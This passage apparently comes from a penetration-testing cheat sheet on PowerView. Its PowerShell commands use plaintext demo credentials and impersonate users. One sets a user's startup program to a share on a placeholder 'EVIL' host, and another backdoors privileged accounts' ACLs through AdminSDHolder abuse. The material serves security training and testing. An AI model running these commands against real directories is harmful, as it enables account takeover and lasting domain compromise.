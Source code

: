 ![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='3082'%3e%3cg data-evernote-id='3083' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='3084' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='3085' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

147# use an alterate creadential for any function

148$SecPassword  = ConvertTo-SecureString 'BurgerBurgerBurger!' -AsPlainText -Force

149$Cred  = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)

150Get-DomainUser -Credential $Cred

###

Impersonate a user[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='3127'%3e%3cg data-evernote-id='3128' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='3129' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='3130' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview#impersonate-a-user)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='3134'%3e%3cg data-evernote-id='3135' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='3136' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='3137' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

151# if running in -sta mode, impersonate another credential a la "runas /netonly"

152$SecPassword  = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

153$Cred  = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)

154Invoke-UserImpersonation -Credential $Cred
155# ... action
156Invoke-RevertToSelf

###

Set values[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='3186'%3e%3cg data-evernote-id='3187' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='3188' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='3189' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview#set-values)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='3193'%3e%3cg data-evernote-id='3194' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='3195' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='3196' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

157# set the specified property for the given user identity

158Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose

159# Set the owner of 'dfm' in the current domain to 'harmj0y'
160Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y

161# ackdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse

162Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
